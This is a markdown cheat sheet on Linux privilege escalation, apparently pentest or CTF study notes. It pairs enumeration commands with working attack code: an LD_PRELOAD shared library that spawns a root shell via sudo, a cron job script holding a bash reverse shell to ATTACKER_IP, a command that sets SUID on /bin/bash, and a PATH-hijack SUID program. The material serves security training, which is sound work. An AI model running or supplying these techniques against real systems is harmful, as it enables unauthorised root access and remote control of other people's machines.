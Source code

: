 # Linux Privilege Escalation

## Enumeration
- [ ] `hostname`
- [ ] `uname -a`
- [ ] Information about the processes and the target: `cat /proc/version` `/etc/issue` 
- [ ] All processes running on the target: `ps -A` , Process tree: `ps axjf`
- [ ] Environment variables `env`
- [ ] List all commands your user can run using sudo `sudo -l`
- [ ] `ls` `id` 
- [ ] Discover users on the system: `cat /etc/passwd` >> to beautify output `cat /etc/passwd | cut -d ":" -f 1`
- [ ] `history`

- Network 
- [ ] `ifconfig`
- [ ] `ip route`
- Netstat Commands
    - `netstat -a`: Shows all listening ports and established connections.
    - `netstat -l`: list ports in "listening" mode. 
    - `netstat -s`: list network usage statistics by protocol.
    - `netstat -tp`: list connections with the service name and PID information.
    - `netstat -i`: Shows interface statistics. 
    - `netstat -ano` could be broken down as follows:
        -a: Display all sockets
        -n: Do not resolve names
        -o: Display timers
- find Command
    - `find . -name flag1.txt` search about flag1.txt in the current directory
    - `find / -type d -name config` find the directory named config under "/"
    - `find / -type f -perm 0777` find files with the 777 permissions (files readable, writable, and executable by all users)
    - `find / -perm a=x` find executable files
    - `find /home -user frank` find all files for user "frank" under "/home"
    - `find / -mtime 10` find files that were modified in the last 10 days
    - `find / -atime 10` find files that were accessed in the last 10 day
    - `find / -cmin -60` find files changed within the last hour (60 minutes)
    - `find / -amin -60` find files accesses within the last hour (60 minutes)
    - `find / -size 50M` find files with a 50 MB size
    - `find / -name gcc*`
- Folders and files that can be written to or executed from:
    - `find / -writable -type d 2>/dev/null` : Find world-writeable folders
    - `find / -perm -222 -type d 2>/dev/null` : Find world-writeable folders
    - `find / -perm -o w -type d 2>/dev/null` : Find world-writeable folders
    - `find / -perm -u=s -type f 2>/dev/null` : Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user. 
## Automated Tools 
-   LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
-   LinEnum: https://github.com/rebootuser/LinEnum
-   LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
-   Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
-   Linux Priv Checker: https://github.com/linted/linuxprivchecker 

## SUDO 
- The sudo command, by default, allows you to run a program with root privileges.
- Any user can check its current situation related to root privileges using the `sudo -l` command. 
### Leverage LD_PRELOAD
- LD_PRELOAD is a function that allows any program to use shared libraries.
- If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run.
- The steps of this privilege escalation vector can be summarized as follows:

    1. Check for LD_PRELOAD (with the env_keep option)
    2. Write a simple C code compiled as a share object (.so extension) file
    3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
- We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters:

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

- We can now use this shared object file when launching any program our user can run with sudo. In our case ,Apache2, find, or almost any of the programs we can run with sudo can be used.

- We need to run the program by specifying the LD_PRELOAD option, as follows:

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

## SUID

- `find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.
 
 ## Capabilities
 - `getcap -r / 2>/dev/null`

## Cron Jobs
- `cat /etc/crontab`
- [ ] Make a reverse shell
In cronjobfile.sh
```
#!/bin/bash
bash -i >& /dev/tcp/ATTACKER_IP/LISTENER_PORT 0>&1
```
- [ ] we just need to give suid permission to /bin/bash, then we can run it and become root. We will use the chmod command to give suid permission.
- In cronjobfile.sh
```
#!/bin/bash
chmod u+s /bin/bash #u+s is used give SUID permission
```
- `chmod 777 cronjobfile.sh`
- `/bin/bash -p`

## PATH

- Steps:
1. Make file path_exp.c
```
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0); 
  system("love");
}
```
2. We compile this into an executable and set the SUID bit. 
    - `gcc path_exp.c -o path -w`
    - `chmod u+s path`
3. - `echo $PATH`
- A simple search for writable folders can done using the  `find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
- The folder that will be easier to write to is probably /tmp. In almost cases; because /tmp is not present in PATH so we will need to add it. the `export PATH=/tmp:$PATH` command accomplishes this.
4. 
- `cd /tmp`
- `echo "/bin/bash" > love`
- `chmod 777 love`
- `./path`
## Exploitation
- [ ] Kernal Exploits (preferred to leave it to t"he end)
- [ ] SUDO
- [ ] SUID
- [ ] Capabilities
- [ ] Cron Jobs
- [ ] 




# Resources 
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation
- https://gtfobins.github.io/
